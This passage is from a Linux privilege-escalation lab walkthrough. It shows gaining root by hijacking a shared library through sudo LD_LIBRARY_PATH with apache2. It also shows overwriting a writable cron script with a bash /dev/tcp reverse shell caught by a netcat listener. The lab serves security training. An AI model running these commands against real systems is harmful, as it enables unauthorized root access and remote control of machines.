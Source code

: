 Run ldd against the apache2 program file to see which shared libraries are used by the program:

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

Remember to exit out of the root shell before continuing!

```
sudo -l

ldd /usr/sbin/apache2

gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

sudo LD_LIBRARY_PATH=/tmp apache2
```


## cron jobs - file permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:
Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?

```
cat /etc/crontab

locate overwrite.sh

ls -l /usr/local/bin/overwrite.sh

which vim
vim /usr/local/bin/overwrite.sh


#!/bin/bash  
bash -i >& /dev/tcp/<YOUR MACHINE IP>/4444 0>&1

# new tab
nc -nlvp 4444
```
